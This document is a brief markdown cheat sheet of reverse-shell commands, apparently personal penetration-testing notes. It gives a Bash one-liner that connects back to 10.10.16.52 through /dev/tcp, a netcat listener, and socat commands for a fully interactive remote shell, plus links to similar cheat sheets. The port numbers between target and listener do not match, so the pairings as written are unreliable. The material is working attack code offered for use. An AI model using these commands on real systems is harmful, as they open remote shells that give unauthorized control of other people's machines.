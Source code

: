 # Reverse-Shells

https://thedarksource.com/reverse-shell-cheat-sheet/
https://highon.coffee/blog/reverse-shell-cheat-sheet/

## Bash

### target

    bash -i >& /dev/tcp/10.10.16.52/81 0>&1

### attack machine

    nc -lvp 4444


## better shell

https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/

socat binary see https://github.com/andrew-d/static-binaries/tree/master/binaries/linux/x86_64

### target
    ./socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.16.52:4444

### attack machine
    socat file:`tty`,raw,echo=0 tcp-listen:4445